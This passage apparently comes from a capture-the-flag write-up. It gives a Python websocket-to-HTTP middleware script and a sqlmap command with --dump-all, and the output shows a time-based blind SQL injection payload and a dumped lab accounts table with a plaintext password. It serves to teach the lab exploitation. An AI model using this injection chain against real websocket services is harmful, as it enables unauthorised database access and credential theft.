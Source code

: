 ```text-plain
    ws.send(data)
    resp = ws.recv()
    ws.close()
    if resp:
        return resp
    else:
        return ''
def middleware_server(host_port,content_type="text/plain"):
    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split('=',1)[1]
            except IndexError:
                payload = False
                
            if payload:
                content = send_ws(payload)
            else:
                content = 'No parameters specified!'
            self.send_header("Content-type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return
    class _TCPServer(TCPServer):
        allow_reuse_address = True
    httpd = _TCPServer(host_port, CustomHandler)
    httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")
try:
    middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
    pass
```

Save this as a file on your local machine with the .py extension. We will need to execute this middleware server to forward the traffic from SQLmap to our target websocket.

```text-plain
python3 ws-translator.py 
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

Now open a new terminal and run sqlmap with the target being the middleware server.

```text-plain
sqlmap -u http://localhost:8081/?id=1 --dump-all --exclude-sysdbs
...
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 2818 FROM (SELECT(SLEEP(5)))tmhV)
...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

